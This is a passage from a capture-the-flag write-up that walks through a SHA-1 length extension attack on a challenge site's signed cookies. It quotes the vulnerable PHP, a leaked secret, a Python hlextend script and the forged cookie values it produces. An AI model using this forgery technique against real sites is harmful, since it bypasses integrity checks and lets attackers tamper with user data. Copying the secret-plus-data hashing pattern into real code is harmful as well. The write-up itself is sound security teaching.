 ```php
setcookie('custom_settings', urlencode(serialize(true)), time() + 86400 * 30, "/");
setcookie('custom_settings_hash', sha1(AUTH_SECRET . serialize(true)), time() + 86400 * 30, "/");
```
Our first goal is to be able to predict the cookie hash we need for an arbitrary piece of data so we can modify the `custom_settings_hash` cookie and `custom_settings` cookie without triggering the hack detection message `Why would you hack Section Chief Steve's site? :(`. To do this we employ a  [Length Extension Attack](en.wikipedia.org/wiki/Length_extension_attack) which works because we know the hash is composed of data (in this case `serialize(true)`) appended to the secret key when the cookie is first set. Note the hash, `2141b332222df459fd212440824a35e63d37ef69`, that is generated when you first browse to a site as this will be important later. I recommend a Chrome extension such as [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) or a Firefox extension such as [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/) for viewing/modifying cookies which we will do several times in this problem.  The final piece of information we need to make the attack work is the length of the secret. If we look in `root_data.php`
```php
<?php
  define('STEVES_LIST_ABSOLUTE_INCLUDE_ROOT', dirname(__FILE__) . "/");
  define('STEVES_LIST_TEMPLATES_PATH', dirname(__FILE__) . "/templates/");
  define('DISPLAY_POSTS', 0);
  // Daedalus changed this... I guess AAAAAAAA was not a good secret :(
  define('AUTH_SECRET', "AAAAAAAA");
  require_once(STEVES_LIST_ABSOLUTE_INCLUDE_ROOT . "includes/classes.php");
?>
```
we can see the 8 character secret `AAAAAAAA` that Steve had, and the hint tells us that the one Daedalus created was the same length. We can now use one of many online tools (I am going to use [hlextend](https://github.com/stephenbradshaw/hlextend) ) to create our own hashes!
Once we have hlextend installed, we need to configure it

Here is a example of how to use hlextend:
```python
import hlextend
import urllib
sha = hlextend.new('sha1')
data = sha.extend('wecanpredictyourhash','b:1;', 8, '2141b332222df459fd212440824a35e63d37ef69')
print 'custom_settings:  ' + urllib.quote_plus(data.replace('\\x','%'))
print 'custom_settings_hash:  ' + sha.hexdigest()

```
Let's break down the `sha.extend` line

`wecanpredictyourhash`: The data we want to add

`b:1;`: The original data,`serialize(true)`

`8`: length of the secret key

`2141b332222df459fd212440824a35e63d37ef69`: The orginal hash we noted above

Running this script gives us:
```
custom_settings:  b%3A1%3B%2580%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%60wecanpredictyourhash
custom_settings_hash:  db76c30d3394c5dfe135abe53fd844d3cca87c93
```
and if we set this output as our two cookies and load the page, we don't get an error. Great!

